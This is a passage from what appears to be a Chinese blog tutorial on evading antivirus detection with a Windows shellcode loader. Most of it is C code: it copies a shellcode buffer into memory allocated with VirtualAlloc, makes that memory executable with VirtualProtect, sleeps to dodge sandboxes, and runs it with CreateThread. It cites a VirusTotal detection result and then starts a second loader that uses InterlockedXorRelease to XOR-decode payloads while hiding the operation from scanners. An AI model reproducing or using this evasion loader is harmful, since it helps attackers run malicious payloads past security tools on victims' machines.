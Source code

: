     char * shellcode = (char *)VirtualAlloc(
        NULL,
        shellcode_size,
        MEM_COMMIT,
        PAGE_READWRITE // 只申请可读可写
        );
    
        // 将shellcode复制到可读可写的内存页中
    CopyMemory(shellcode,buf,shellcode_size);
    
    // 这里开始更改它的属性为可执行
    VirtualProtect(shellcode,shellcode_size,PAGE_EXECUTE,&dwOldProtect);
    
    // 等待几秒，兴许可以跳过某些沙盒呢？
    Sleep(2000);
    
    hThread = CreateThread(
        NULL, // 安全描述符
        NULL, // 栈的大小
        (LPTHREAD_START_ROUTINE)shellcode, // 函数
        NULL, // 参数
        NULL, // 线程标志
        &dwThreadId // 线程ID
        );
    
    WaitForSingleObject(hThread,INFINITE); // 一直等待线程执行结束
        return 0;
    }
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008165436390.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

    https://www.virustotal.com/gui/file/0a97372041356176fd3f21fc199f9f4a999e015236cf832e0583e9f0ba1917c3/detection
    
        

**0x02 异或方式**

通常，我们使用循环去进行异或运算，会使用到异或运算符，这里是较为敏感的操作，那么，Windows下是否有相应的API呢？

我在学习《Windows核心编程》的过程中，发现InterlockedXorRelease函数可以用于两个值的异或运算，最重要的一点就是，它的操作是原子的，也就是可以达到线程同步。

抱着这个心态，我决定实验一下：

    #include <Windows.h>
    #include <intrin.h>
    #include <WinBase.h>
    #include <stdio.h>
    // 入口函数
    int wmain(int argc,TCHAR * argv[]){
    
        int shellcode_size = 0; // shellcode长度
        DWORD dwThreadId; // 线程ID
        HANDLE hThread; // 线程句柄
        DWORD dwOldProtect; // 内存页属性
    /* length: 800 bytes */
